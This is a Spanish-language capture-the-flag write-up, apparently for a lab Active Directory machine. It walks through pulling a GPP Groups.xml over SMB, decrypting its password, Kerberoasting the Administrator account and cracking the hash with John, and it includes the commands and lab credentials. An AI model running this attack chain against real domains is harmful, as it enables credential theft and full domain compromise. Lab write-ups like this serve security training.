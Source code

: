 ## Vulnerability Assessment {-}

### Groups.xml {-}

Hemos encontrado el fichero `groups.xml`, lo descargamos

```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/Groups.xml

mv Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/Groups.xml Groups.xml
cat Groups.xml
```

Aqui vemos el usuario y la contraseña encryptada.

```bash
gpp-decrypt "edBSHOwhZLTjt/Q59FeIcJ83mjWA98gw9gukOhjOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

Ya tenemos la contraseña. Verificamos si las credenciales son validas.

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

Es valida pero no tenemos el Pwn3d. Miramos si este usuario tiene acceso a mas registros compartidos a nivel de red.

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

Hay unos cuantos mas. Miramos lo que hay en el registro Users

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users
```

Como solo vemos nuestro usuario y el administrator, y quel puerto 88 esta abierto, intentamos un Kerberoasting attack.

### Kerberoasting attack {-}

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

Aqui podemos ver que el usuario Administrator es kerberoasteable.

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

Copiamos el hash y intentamos romperlo con John

### Crack hash with John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Ya tenemos la contraseña del usuario Administrator. Lo verificamos con crackmapexec

```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
```

Ademas de ser valido, vemos el famoso **(Pwn3d!)**
